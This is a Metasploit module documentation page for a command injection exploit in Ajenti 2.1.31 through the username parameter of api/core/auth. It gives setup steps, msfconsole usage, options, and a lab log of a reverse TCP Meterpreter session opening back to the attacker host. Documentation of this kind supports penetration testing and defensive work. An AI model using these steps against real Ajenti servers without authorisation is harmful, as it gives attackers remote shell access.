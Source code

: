 ## Description

This module exploits a command injection in Ajenti == 2.1.31. By injecting a command into the username POST parameter to api/core/auth, a shell can be spawned.

## Vulnerable Application

This module has been tested with [Ajenti 2.1.31](https://pypi.org/project/ajenti-panel/2.1.31/#files)

## Setup

1. `sudo pip install ajenti-panel==2.1.31 ajenti.plugin.dashboard ajenti.plugin.settings ajenti.plugin.plugins`
2. `ajenti-panel -v`

## Verification Steps

  Example steps in this format (is also in the PR):

  1. `use exploit/unix/webapp/ajenti_auth_username_cmd_injection`
  2. `set RHOSTS <rhost>`
  3. `set LHOST <lhost>`
  4. `exploit`

## Options

**RPORT**

Set this to the Ajenti port. The default is 8000.

**TARGETURI**

Set this to the Ajenti base path. The default is `/`.


## Scenarios

### Tested Ajenti 2.1.31 on Ubuntu 19.10 x64

```
msf5 > use exploit/unix/webapp/ajenti_auth_username_cmd_injection
msf5 exploit(unix/webapp/ajenti_auth_username_cmd_injection) > set RHOSTS 172.16.172.135
RHOSTS => 172.16.172.135
msf5 exploit(unix/webapp/ajenti_auth_username_cmd_injection) > set LHOST 172.16.172.1
LHOST => 172.16.172.1
msf5 exploit(unix/webapp/ajenti_auth_username_cmd_injection) > exploit

[*] Started reverse TCP handler on 172.16.172.1:4444
[*] Exploiting...
[*] Sending stage (53755 bytes) to 172.16.172.135
[*] Meterpreter session 1 opened (172.16.172.1:4444 -> 172.16.172.135:53170) at 2019-11-18 19:51:04 +0300

meterpreter >

```
